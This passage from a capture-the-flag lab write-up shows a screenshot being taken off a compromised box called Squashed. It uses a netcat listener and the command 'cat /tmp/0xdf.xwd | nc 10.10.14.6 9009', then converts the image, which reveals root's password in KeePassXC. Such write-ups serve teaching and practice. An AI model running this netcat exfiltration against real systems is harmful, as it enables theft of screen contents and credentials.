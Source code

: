 #### Exfil Screenshot

I’ll start `nc` listening on my VM on port 9009 piping output to `screenshot.wxd` with the command `nc -lnvp 9009 > screenshot.wxd`. Then on Squashed, I’ll cat the file and pipe it into `nc` connecting to that port:

```

alex@squashed:/home/alex$ cat /tmp/0xdf.xwd | nc 10.10.14.6 9009
^C

```

It just hangs, so after a few seconds I’ll Ctrl-c to kill it. At my system, there’s now a file:

```

oxdf@hacky$ nc -lnvp 9009 > screenshot.xwd
Listening on 0.0.0.0 9009
Connection received on 10.10.11.191 36294
oxdf@hacky$ file screenshot.xwd
screenshot.xwd: XWD X Window Dump image data, "xwdump", 800x600x24

```

It’s always a good idea to check the hash of both files to make sure they are the same:

```

alex@squashed:/home/alex$ md5sum /tmp/0xdf.xwd
839e737b096f08832fcfb60d12d2697a  /tmp/0xdf.xwd

```

```

oxdf@hacky$ md5sum screenshot.xwd
839e737b096f08832fcfb60d12d2697a  screenshot.xwd

```

#### Convert

To convert this to a file format that I can easily open, I’ll use the `convert` utility from [ImageMagick](https://imagemagick.org/index.php) (install with `sudo apt install imagemagick`). In this case, since it’s just a format switch, I’ll just give it input and output, and it fill figure out the formats based on the extensions:

```

oxdf@hacky$ convert screenshot.xwd screenshot.png
oxdf@hacky$ file screenshot.png
screenshot.png: PNG image data, 800 x 600, 8-bit/color RGB, non-interlaced

```

It opens to show the KeePassXC window full screen, with root’s password visible:
